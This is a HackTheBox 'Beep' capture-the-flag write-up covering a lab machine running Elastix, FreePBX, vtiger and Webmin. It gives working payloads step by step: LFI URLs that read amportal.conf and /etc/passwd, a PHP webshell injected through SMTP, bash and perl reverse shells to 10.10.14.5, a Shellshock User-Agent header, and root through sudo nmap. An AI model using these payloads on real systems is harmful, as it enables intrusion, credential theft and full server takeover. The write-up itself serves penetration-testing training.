





# HackTheBox Beep

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[2.3:28.8]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.7
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.7 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.7 -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 10:40 +07
Nmap scan report for 10.10.10.7
Host is up (0.25s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL RESP-CODES EXPIRE(NEVER) STLS IMPLEMENTATION(Cyrus POP3 server v2) TOP AUTH-RESP-CODE LOGIN-DELAY(0) USER APOP PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4rev1 Completed RENAME THREAD=REFERENCES ID MAILBOX-REFERRALS URLAUTHA0001 X-NETSCAPE CATENATE LIST-SUBSCRIBED LISTEXT QUOTA NAMESPACE IDLE CONDSTORE ATOMIC ACL ANNOTATEMORE BINARY MULTIAPPEND LITERAL+ OK SORT NO THREAD=ORDEREDSUBJECT RIGHTS=kxte SORT=MODSEQ UNSELECT CHILDREN STARTTLS UIDPLUS IMAP4
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-04-02T03:57:36+00:00; +13m59s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 13m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 400.58 seconds
```

### Postfix smtpd

Using `nmap` scan smtp service with nse script.

```
### SMTP Enumeration (25) ############################
nmap 10.10.10.7 -p25 -Pn --script=smtp-*
<snip>
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE

Nmap done: 1 IP address (1 host up) scanned in 41.72 seconds
```

Access to SMTP service and try to sent a email.

```
┌──(Hades㉿10.10.14.5)-[1.9:27.1]~/walkthrough/hackthebox/beep
└─$ nc -nC 10.10.10.7 25
220 beep.localdomain ESMTP Postfix
mail from: "hades"
250 2.1.0 Ok
rcpt to: "root"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
leecybersec
.
250 2.0.0 Ok: queued as 25368D92FD
```

### Apache/2.2.3 (CentOS)

At port 80, using `gobuster` to get a list of hidden in the web port. Should try more wordlist files if the results is not interesting.

```
### Web Enumeration (443) ############################

[+] Files and directories
gobuster dir -k -u https://10.10.10.7:443 -w /usr/share/seclists/Discovery/Web-Content/common.txt
<snip>
===============================================================
/.hta                 (Status: 403) [Size: 282]
/.htaccess            (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 287]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/cgi-bin/             (Status: 403) [Size: 286]                                
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/favicon.ico          (Status: 200) [Size: 894]                                  
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]   
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/] 
/index.php            (Status: 200) [Size: 1785]                                 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]   
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/robots.txt           (Status: 200) [Size: 28]                                   
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/] 
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]    
<snip>
```

### Elastix

At the url `https://10.10.10.7` I saw a Elastix web application.



```
┌──(Hades㉿10.10.14.5)-[1.9:26.8]~/walkthrough/hackthebox/beep
└─$ searchsploit elastix
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Elastix 2.2.0 - 'graph.php' Local File Inclusion    | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                   | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                  | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execut | php/webapps/18650.py
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### FreePBX 2.8.1.4

Follow the uri `/admin`, this is FreePBX web application.


```
┌──(Hades㉿10.10.14.5)-[1.9:28.6]~/walkthrough/hackthebox/beep
└─$ searchsploit FreePBX 2.8.1.4
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
FreePBX < 13.0.188 - Remote Command Execution (Meta | php/remote/40434.rb
Freepbx < 2.11.1.5 - Remote Code Execution          | php/webapps/41005.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### RoundCube Webmail

Follow the uri `/mail`, this is RoundCube Webmail web application.



### vtiger CRM 5.1.0

At the exploit `37637.pl`, I saw in the payload contain url `vtigercrm`.



```
┌──(Hades㉿10.10.14.5)-[1.9:31.0]~/scripting
└─$ searchsploit vtiger CRM 5.1.0
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
vTiger CRM 5.1.0 - Local File Inclusion             | php/webapps/18770.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### MiniServ 1.570

Webmin application is running on port 10000.



After try to login with some default username/password, the web app redirect to login page with uri `/session_login.cgi`

```
┌──(Hades㉿10.10.14.5)-[1.9:29.5]~/walkthrough/hackthebox/beep
└─$ searchsploit Webmin cgi              
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Webmin 1.5 - Web Brute Force (CGI)                  | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Exec | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities             | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit | cgi/remote/46201.rb
Webmin 1.x - HTML Email Command Execution           | cgi/webapps/24574.txt
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (M | linux/webapps/47330.rb
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### LFI leaked Credential

At exploit `php/webapps/37637.pl`, I saw the LFI Exploit showing the amportal.conf contain password `jEhdIekWmdjE`. This password have been used to any account listed in file.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

```
<snip>
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=jEhdIekWmdjE
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Make a guess, I try this password with root's ssh credential.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Fri Apr  2 10:27:42 2021 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]#
```

### LFI and Postfix smtpd

After gathering information in the server, I have 2 LFI vulnerabilities:

1. Elastix 2.2.0 - 'graph.php' Local File Inclusion
2. vTiger CRM 5.1.0 - Local File Inclusion

Get the user account in the server.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00&cmd=id
```

I grep only user can execute shell

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

To create a backdoor, go first with SMTP service. I access to it and sent a mail contain php backdoor code to user `asterisk`.

```
┌──(Hades㉿10.10.14.5)-[2.1:32.9]~/walkthrough/hackthebox/beep
└─$ nc -nC 10.10.10.7 25
220 beep.localdomain ESMTP Postfix
vrfy asterisk@localhost
252 2.0.0 asterisk@localhost
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "asterisk"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as A3254D92FD
quit
221 2.0.0 Bye
```

After sent a mail, I using LFI go to asterisk's mail file at `/var/mail/asterisk`


Get reverse shell

Url encode using `hURL` to encode payload.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Execute bash reverse shell.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../..//var/mail/asterisk%00&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.6]~/walkthrough/hackthebox/beep
└─$ sudo nc -nvlp 443                                          
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 53748
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ 
```

### FreePBX / Elastix RCE

I used exploit `php/webapps/18650.py` found when I enum Elastix.

I was drop some `sys.argv` and query the url with firefox.

The number of extension is "233"

[IppSec HackTheBox Beep](https://www.youtube.com/watch?v=XJmBpOd__N8)

```
┌──(Hades㉿10.10.14.5)-[2.2:50.5]~/walkthrough/hackthebox/beep
└─$ python3 18650.py 10.10.10.7 10.10.14.5 443
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.2:50.6]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 47806
id
uid=100(asterisk) gid=101(asterisk)
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ 
```

### Webmin Shellshock

Webmin using `session_login.cgi`, it can be exploit using shellshock payload.

Payload:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'`



Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 40293
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]#
```

## Privilege Escalation

### Sudo and Suid

Back to shell at `LFI and Postfix smtpd`, I enumed server with [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
bash-3.2$ sudo -l
<snip>

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

[GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo)

```
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```